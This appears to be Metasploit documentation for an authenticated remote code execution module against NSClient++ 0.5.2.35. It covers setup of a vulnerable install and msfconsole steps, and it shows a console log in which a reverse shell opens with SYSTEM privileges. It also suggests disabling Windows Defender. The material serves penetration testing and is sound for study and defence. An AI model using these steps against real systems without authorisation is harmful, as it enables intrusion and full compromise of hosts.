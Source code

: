 ## Vulnerable Application

### Description

This module allows an attacker with knowledge of the admin password of NSClient++ 0.5.2.35 to start a privileged reverse shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts` feature should be enabled.

### Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with
this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface
and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/http/nscp_authenticated_rce`
3. `set RHOST <target_host>`
4. `set PASSWORD <admin_password>` to set the admin password of NSClient++ web interface
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability and start a shell

## Options

### PASSWORD

Set the PASSWORD of the admin account of NSClient++.

## Scenarios

This module was successfully tested on Windows 10 Home (you may need to disable Windows Defender as msf payload could be spotted).
See the following output :

```
msf6 > use nscp_authenticated_rce
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(nscp_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf6 exploit(nscp_authenticated_rce) > set password easypassword
password => easypassword
msf6 exploit(nscp_authenticated_rce) > exploit

[*] Started reverse TCP handler on y.y.y.y:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[+] The target is vulnerable. External scripts feature enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: zqlmwevxef)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Command shell session 21750 opened (y.y.y.y:4444 -> x.x.x.x:51026) at 2021-06-08 16:54:39 +0200

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

